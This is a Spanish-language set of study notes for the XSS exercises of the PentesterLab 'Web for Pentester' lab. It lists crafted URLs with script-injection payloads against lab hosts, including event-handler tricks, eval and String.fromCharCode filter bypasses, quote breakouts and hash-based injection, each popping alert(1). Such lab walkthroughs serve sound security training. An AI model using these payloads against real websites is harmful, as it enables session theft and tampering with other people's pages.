 ## Contenidos

- [XSS](#xss)
  - [Example 4](#example-4)
  - [Example 5](#example-5)
  - [Example 7](#example-7)
  - [Example 8](#example-8)
  - [Example 9](#example-9)
- [Recursos](#recursos)

## XSS

### Example 4

```bash
http://10.0.1.6/xss/example4.php?name=<a href='' onmouseover="alert(1)" >Pop-up</a>
```

No es necesario `href=''`:

```bash
http://10.0.1.6/xss/example4.php?name=<div onmouseover="alert(1)" >Pop-up</div>
```

### Example 5

- eval

```bash
http://10.0.1.6/xss/example5.php?name=<script> eval(String.fromCharCode(97)%2B'lert(1)') </script>
```

```bash
http://10.0.1.6/xss/example5.php?name=<script> eval('a'%2B'lert(1)') </script>
```

Tabla símbolos: ver recursos.

- prompt

```bash
http://10.0.1.6/xss/example5.php?name=<script> prompt(eval(String.fromCharCode(97)%2B'lert(1)')) </script>
```

```bash
http://10.0.1.6/xss/example5.php?name=<script> prompt(eval('a'%2B'lert(1)')) </script>
```

- confirm

```bash
http://10.0.1.6/xss/example5.php?name=<script> confirm('',eval('a'+%2B+'lert(1)')); </script>
```

```bash
http://10.0.1.6/xss/example5.php?name=<script> confirm(eval('a'+%2B+'lert(1)')); </script>
```

### Example 6

```bash
http://10.0.1.6/xss/example6.php?name=hacker2"; alert(1);</script> <script>
```

- commenting

```bash
http://10.0.1.6/xss/example6.php?name=hacker2"; alert(1) //
```

- dummy code

```bash
http://10.0.1.6/xss/example6.php?name="; alert(1); $dummy = "
```

### Example 7

```bash
http://10.0.1.6/xss/example7.php?name=hacker23';alert(1)//
```

### Example 8

```bash
http://10.0.1.6/xss/example8.php/" method="POST"> <script> alert(1); </script>
```

```bash
http://10.0.1.6/xss/example8.php/" method="POST"> <script> alert(1); </script><form action="/xss/example8.php/
```

### Example 9

```bash
http://192.168.1.37/xss/example9.php#<script>alert(1);</script>
```

Se debe usar el navegador Internet Explorer, ver vídeo <https://securitytraning.com/web-for-pentester-cross-site-scripting-example-9/>.

## Recursos

Tabla símbolos

<http://www.blooberry.com/indexdot/html/tagpages/entities/charentity97-126.htm>

Web for Pentester

<https://pentesterlab.com/exercises/web_for_pentester/course>
